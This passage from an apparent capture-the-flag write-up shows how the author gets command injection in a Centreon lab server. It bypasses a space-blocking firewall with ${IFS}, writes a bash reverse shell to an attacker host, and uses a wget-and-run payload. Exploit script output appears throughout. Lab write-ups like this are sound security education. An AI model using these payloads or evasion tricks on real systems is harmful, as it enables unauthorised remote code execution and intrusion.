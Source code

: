 My first thought was that it was blocking on IP addresses. So I tried
`wget wget`, but it still failed. I tried `wget` (there's a space at the
end), and it returned 403! It seems that space is blocked at the
firewall. This is a pretty unrealistic challenge, and I suspect
completely breaks the Centreon application. But I'll continue.

I know a way to say space without using that character is the `${IFS}`
variable. I'll give it a try, making sure to put my payload in single
quotes so that my bash doesn't evaluate the variable:



    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30'
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : c3e06f0952f4b5ed743cf4be0a4434a0
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : ed900e21690e570728e12e1cba70c926
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !



And I get a request on my webserver:



    10.10.10.157 - - [15/Sep/2019 04:49:43] "GET / HTTP/1.1" 200 -



I wrote a quick reverse shell script:



    root@kali# cat shell
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.30/443 0>&1



I tried to get `wget` to output to stdout and pipe that into `bash`, but
i couldn't get that to work. But I did get this to work:



    wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf



This uses `wget` to get the shell file and save it to `/tmp`, and then
use `bash` to run it.



    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf'
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 1892910fb24da4dd4d54fabd156f46fe
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 71d739093f67a73ed21c823778f3f052
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
